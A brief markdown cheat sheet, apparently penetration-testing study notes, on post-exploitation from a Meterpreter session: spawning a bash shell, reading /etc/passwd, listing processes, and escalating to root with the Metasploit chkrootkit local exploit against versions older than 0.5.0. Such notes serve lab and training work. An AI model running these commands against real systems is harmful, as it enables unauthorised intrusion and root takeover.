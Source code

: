 # Exploitating a vulnerable program
get a shell on the target from meterpreter
1. ```shell```
2. ```/bin/bash -i```
3. ```cat /etc/passwd```
4. search for processes -- ```ps aux```

**chrootkit**  
Versions older than 0.5.0 are vulnerable  
enumerate version --```chkrootkit -V```

Module: **exploit/unix/local/chkrootkit**  
 - set chkrootkit /bin/chkrootkit
 - set LHOST
 - run
 - ```/bin/bash -i``` and you should have root privileges
